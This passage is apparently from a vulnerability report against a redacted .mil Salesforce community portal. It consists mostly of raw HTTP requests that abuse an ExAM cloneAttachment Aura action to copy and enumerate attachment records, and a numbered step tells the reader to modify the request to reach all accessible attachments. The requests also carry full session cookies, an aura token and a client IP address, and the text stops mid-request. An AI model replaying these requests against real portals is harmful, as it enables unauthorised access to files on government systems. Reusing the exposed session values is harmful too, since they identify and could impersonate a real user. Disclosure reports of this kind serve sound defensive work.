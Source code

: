 ```
POST /Portal█████████/s/sfsites/aura?r=1&ui-comm-runtime-components-aura-components-siteforce-controller.PubliclyCacheableAttributeLoader.getComponentAttributes=1 HTTP/2
Host: █████.mil
Cookie: renderCtx=%7B%22pageId%22%3A%22fec421fb-ebfc-431f-978d-a365adcfcb5c%22%2C%22schema%22%3A%22Published%22%2C%22viewType%22%3A%22Published%22%2C%22brandingSetId%22%3A%223c2a3bc4-0bc0-4c5c-8f55-7ae185109706%22%2C%22audienceIds%22%3A%226Au83000000003R%2C6Au83000000003M%22%7D; CookieConsentPolicy=0:1; LSKey-c$CookieConsentPolicy=0:1; BrowserId=oMjkwsU6Ee-I00kJsX5jcA; pctrk=206f938e-92be-4123-812c-7636ca87745f; oinfo=c3RhdHVzPUFDVElWRSZ0eXBlPTImb2lkPTAwRHQwMDAwMDAwUE16bg==; autocomplete=1; oid=00Dt0000000PMzn; sid=00Dt0000000PMzn!AQEAQOLKvWlH87RxyW9N_gumGxPew3nc7awAoLfDbhliBEaC6HRUyzcfI0buw465cwES7za7d6WuFGxuivxJhqW4_4bM5PjI; sid_Client=w000000E5Sr0000000PMzn; clientSrc=81.97.122.40; inst=APP_Rw; __Secure-has-sid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://███████.mil/Portal███████/s/
X-Sfdc-Page-Scope-Id: cb3e874d-dd6f-4459-8016-91cb97c034bb
X-Sfdc-Request-Id: 1650000000ce00391b
X-Sfdc-Page-Cache: 05da72b5c160b86c
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-B3-Traceid: bb38cda3039f713b
X-B3-Spanid: 2e48fc5f161b8aa4
X-B3-Sampled: 0
Content-Length: 999
Origin: https://███████.mil
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

message={"actions":[{"id":"20;a","descriptor":"apex://ExAM.FileUploadController/ACTION$cloneAttachment","callingDescriptor":"markup://ExAM:AssessmentViewer","params":{"attachmentId":"00PRw000000MaT3MAK","parentId":"003Rw000002SJcsIAG"},"version":null}]}&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22eUNJbjV5czdoejBvRlA5OHpDU1dPd1pMVExBQkpJSlVFU29Ba3lmcUNLWlE5LjMyMC4y%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%221184_AgcTXn_6dZSShHXZ2PZsug%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Atrue%7D&aura.pageURI=%2FPortal█████████%2Fs%2F&aura.token=eyJub25jZSI6Ilh5VUlXTVhkNmlMLVVVSGE4UHgtNVpYcXNHTExpcHh1VHpsdGY0ZUxMX0lcdTAwM2QiLCJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IntcInRcIjpcIjAwRFJ3MDAwMDAwMDAwMVwiLFwidlwiOlwiMDJHUncwMDAwMDAwMDNGXCIsXCJhXCI6XCJjYWltYW5zaWduZXJcIn0iLCJjcml0IjpbImlhdCJdLCJpYXQiOjE3MzczOTAwMTE5MTEsImV4cCI6MH0%3D..WK5LFyXjvujGvkxNWDVZyUQQsRhVRCcTD_hkWdulEWA%3D
```
█████

6. Modify request again and send, this time calling all accessible Attachment records. Note that a new file has just been cloned/created, copy the Id: 00PRw000000MbSLMA0.

```
POST /Portal████████/s/sfsites/aura?r=1&ui-comm-runtime-components-aura-components-siteforce-controller.PubliclyCacheableAttributeLoader.getComponentAttributes=1 HTTP/2
Host: ██████.mil
Cookie: renderCtx=%7B%22pageId%22%3A%22fec421fb-ebfc-431f-978d-a365adcfcb5c%22%2C%22schema%22%3A%22Published%22%2C%22viewType%22%3A%22Published%22%2C%22brandingSetId%22%3A%223c2a3bc4-0bc0-4c5c-8f55-7ae185109706%22%2C%22audienceIds%22%3A%226Au83000000003R%2C6Au83000000003M%22%7D; CookieConsentPolicy=0:1; LSKey-c$CookieConsentPolicy=0:1; BrowserId=oMjkwsU6Ee-I00kJsX5jcA; pctrk=206f938e-92be-4123-812c-7636ca87745f; oinfo=c3RhdHVzPUFDVElWRSZ0eXBlPTImb2lkPTAwRHQwMDAwMDAwUE16bg==; autocomplete=1; oid=00Dt0000000PMzn; sid=00Dt0000000PMzn!AQEAQOLKvWlH87RxyW9N_gumGxPew3nc7awAoLfDbhliBEaC6HRUyzcfI0buw465cwES7za7d6WuFGxuivxJhqW4_4bM5PjI; sid_Client=w000000E5Sr0000000PMzn; clientSrc=81.97.122.40; inst=APP_Rw; __Secure-has-sid=1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://████████.mil/Portal██████/s/
```